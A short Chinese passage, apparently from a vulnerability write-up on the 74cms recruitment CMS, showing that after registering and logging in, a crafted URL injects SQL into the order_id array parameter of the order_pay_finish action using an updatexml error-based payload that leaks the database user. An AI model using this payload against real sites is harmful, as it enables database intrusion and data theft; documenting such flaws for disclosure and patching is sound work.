 ![image](images/img58.png)

注册完成以后登录前台即可

```html
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
```

如果不登录的话，会显示这个样子

```html
url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus
```

![image](images/img59.png)
